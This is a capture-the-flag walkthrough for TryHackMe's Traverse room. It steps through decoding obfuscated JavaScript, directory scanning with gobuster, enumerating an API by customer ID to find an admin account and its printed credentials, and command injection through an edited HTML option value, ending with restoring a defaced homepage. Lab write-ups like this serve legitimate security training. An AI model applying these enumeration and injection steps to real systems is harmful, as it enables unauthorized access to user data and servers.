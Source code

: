 # Traverse Walkthrough
<br/>

## Intro
Welcome to the Traverse challenge, here is the link to the  [room](https://tryhackme.com/r/room/traverse) on TryHackMe.
This CTF will make you put in practice what you have learnt in the Software Security module.

Here is the story:
"*Bob is a security engineer at a firm and works closely with the software/DevOps team to develop a tourism web application. Once the website was moved from QA to Production, the team noticed that the website was getting hacked daily and wanted to know the exact reason. Bob consulted the blue team as well but has yet to be successful. Therefore, he finally enrolled in the **[Software Security](https://tryhackme.com/module/software-security)** pathway at THM to learn if he was doing something wrong.*"

Whenever you feel ready start the machine and connect via OpenVPN or using the AttackBox.

<br/>
<br/>

## The Challenge
Now let's navigate with our browser to:
```
http://MACHINE_IP
```

By viewing the page source code we can spot a minified JavaScript file called "custom.min.js", let's view it's content:
```
// I WILL KEEP THE OBFUSCATED SO NO ONE CAN UNDERSTAND

28 66 75 6E 63 74 69 6F 6E 28 29 7B 66 75 6E 63 74 69 6F 6E 20 64 6F 4E 6F 74 68 69 6E 67 28 29 7B 7D 76 61 72 20 6E 3D 22 44 49 52 45 43 54 4F 52 59 22 3B 76 61 72 20 65 3D 22 4C 49 53 54 49 4E 47 22 3B 76 61 72 20 6F 3D 22 49 53 20 54 48 45 22 3B 76 61 72 20 69 3D 22 4F 4E 4C 59 20 57 41 59 22 3B 76 61 72 20 66 3D 6E 75 6C 6C 3B 76 61 72 20 6C 3D 66 61 6C 73 65 3B 76 61 72 20 64 3B 69 66 28 66 3D 3D 3D 6E 75 6C 6C 29 7B 63 6F 6E 73 6F 6C 65 2E 6C 6F 67 28 22 46 6C 61 67 3A 22 2B 6E 2B 22 20 22 2B 65 2B 22 20 22 2B 6F 2B 22 20 22 2B 69 29 3B 64 3D 75 6E 64 65 66 69 6E 65 64 7D 65 6C 73 65 20 69 66 28 74 79 70 65 6F 66 20 66 3D 3D 3D 22 75 6E 64 65 66 69 6E 65 64 22 29 7B 64 3D 75 6E 64 65 66 69 6E 65 64 7D 65 6C 73 65 7B 69 66 28 6C 29 7B 64 3D 75 6E 64 65 66 69 6E 65 64 7D 65 6C 73 65 7B 28 66 75 6E 63 74 69 6F 6E 28 29 7B 69 66 28 64 29 7B 66 6F 72 28 76 61 72 20 6E 3D 30 3B 6E 3C 31 30 3B 6E 2B 2B 29 7B 63 6F 6E 73 6F 6C 65 2E 6C 6F 67 28 22 54 68 69 73 20 63 6F 64 65 20 64 6F 65 73 20 6E 6F 74 68 69 6E 67 2E 22 29 7D 64 6F 4E 6F 74 68 69 6E 67 28 29 7D 65 6C 73 65 7B 64 6F 4E 6F 74 68 69 6E 67 28 29 7D 7D 29 28 29 7D 7D 7D 29 28 29 3B
```

With a quick look we can easily understand that the content of the file has been encoded int ==hex==, we can decode it by using any of the numerous online tools.
After decoding ad passing the code to a prettyfier we will get this:
```javascript
function() {
    function doNothing() {}
    var n = "DIRECTORY";
    var e = "LISTING";
    var o = "IS THE";
    var i = "ONLY WAY";
    var f = null;
    var l = false;
    var d;
    if (f === null) {
        console.log("Flag:" + n + " " + e + " " + o + " " + i);
        d = undefined
    } else if (typeof f === "undefined") {
        d = undefined
    } else {
        if (l) {
            d = undefined
        } else {
            (function() {
                if (d) {
                    for (var n = 0; n < 10; n++) {
                        console.log("This code does nothing.")
                    }
                    doNothing()
                } else {
                    doNothing()
                }
            })()
        }
    }
})();
```

Flag: ==directory listing is the only way==

Moving on we need to find the file containing email dumps, let's go back at the web-page source code, nothing more to look for here.
Now we could take a wild guess and think the logs might be in a directory called logs (lol), or we can run a directory scan against the website:
```bash
gobuster dir -u http://10.10.120.255/  -w /usr/share/wordlists/dirb/common.txt -t 50 
```

```
/api                  (Status: 301) [Size: 312] [--> http://10.10.120.255/api/]
/client               (Status: 301) [Size: 315] [--> http://10.10.120.255/client/]
/img                  (Status: 301) [Size: 312] [--> http://10.10.120.255/img/]
/index.php            (Status: 200) [Size: 1491]
/javascript           (Status: 301) [Size: 319] [--> http://10.10.120.255/javascript/]
/logs                 (Status: 301) [Size: 313] [--> http://10.10.120.255/logs/]
/phpmyadmin           (Status: 301) [Size: 319] [--> http://10.10.120.255/phpmyadmin/]
```

Who could guess it, there is a directory called logs, navigating inside it we can see a file called: REDACTED
Reading the file we can understand that Bob has created a directory with the name of the first phase of SSDLC which is REDACTED and is accessible only whit this key REDACTED
So let's now navigate to this URL and access the page inserting the key we have just found:
```
http://MACHINE_IP/planning
```

Here we can find a simple example instructing us on how to interact with the API, let's get the user with ID=5 name:
```bash
curl http://MACHINE IP/api/?customer_id=5 | grep email
```
-> REDACTED

Now we need to find which user is an admin, we can either try by hand all single digits IDs or write a simple bash script that will do it for use and return only the one we want:
```bash
for id_number in {1..9}; do
  response=$(curl -s "http://10.10.120.255/api/?customer_id=$id_number")
  if echo "$response" | grep -q '"isadmin":"1"'; then
    echo "ID Number: $id_number"
    echo "$response"
  fi
done

```

Running it we can see that is the user with ID ==3== and that it can log in at ==/realadmin== with the credentials `realadmin@traverse.com:admin_key!!!`
Let's visit that page and login.

At this point the challenge tells us that someone uploaded a web-shell and we need to find the original name, as the attacker changed it.
To find that out we can leverage a vulnerability in the form, which is basically html/command injection, we can manipulate the value of the html element like this:
```html
<option value="pwd">Current Directory</option>
```

to this to show the content of the working directory:
```html
<option value="ls $pwd">Current Directory</option>
```

And we can find 2 files:
- REDACTED
- REDACTED

Which names are the answer of the 2 questions.
The output also contains the password to access the file manager: 

Finally we have to restore the original homepage, before being defaced.
Let's navigate to this URL and login:
```
http://10.10.120.255/realadmin/REDACTED
```

Let's edit the index.php file and remove this lines:
```php
<?php
include 'header.php';
$message = "FINALLY HACKED";
?>
```

Now that the "Finally Hacked" message has been removed let's check again the homepage:
```
http://10.10.120.255/
```

If you did everything right you should now see the message: 
--> "SUCCESSFULLY RESTORED WEBSITE FLAG: REDACTED"

Congratulations you have successfully restored the defaced website and practiced your security coding knowledge.
Hope you had fun following along.

Catch you in the next CTF 😃 
